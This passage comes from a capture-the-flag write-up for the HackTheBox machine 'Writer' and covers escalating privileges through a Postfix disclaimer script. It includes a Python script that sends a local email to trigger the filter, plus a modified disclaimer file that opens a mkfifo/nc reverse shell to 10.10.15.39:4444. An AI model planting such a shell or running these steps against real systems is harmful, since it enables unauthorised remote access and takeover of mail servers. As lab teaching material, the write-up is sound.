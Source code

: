 I tried editing the disclaimer file and putting a comment in it, which was removed when the timestamp updated. So this confirms we have a limited window to alter the disclaimer file and send an email to trigger it to run.

There's also this file which shows the addresses that will have the disclaimer script ran against them:

```text
kyle@writer:/etc/postfix$ cat disclaimer_addresses
root@writer.htb
kyle@writer.htb
```

[This](https://baturorkun.medium.com/disclaimer-to-outgoing-emails-2ce576a6433b) article confirms the disclaimer script has been changed to use the addresses file, so we know we need to send an email to/from one of those addresses to trigger it.

We need a way to send a local email on the box, and a quick search found [this](https://realpython.com/python-send-email) send mail script on RealPython which we can use.

We can chop out a lot and make it simpler, create a blank file:

```text
kyle@writer:~$ nano /dev/shm/sendmail.py
```

Paste our version of the Python in it and save:

```python
import smtplib

try:
    server = smtplib.SMTP('localhost')
    server.sendmail('kyle@writer.htb', 'john@writer.htb', 'Shell Time!')
    print("Mail sent")
except error: 
    print("Mail failed to send")
finally:
    server.quit()

```

Now copy the disclaimer file to /dev/shm and edit so we have our reverse shell at the start:

```text
#!/bin/sh
# Localize these.

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.39 4444 >/tmp/f

INSPECT_DIR=/var/spool/filter
SENDMAIL=/usr/sbin/sendmail

# Get disclaimer addresses
DISCLAIMER_ADDRESSES=/etc/postfix/disclaimer_addresses
<SNIP>
```
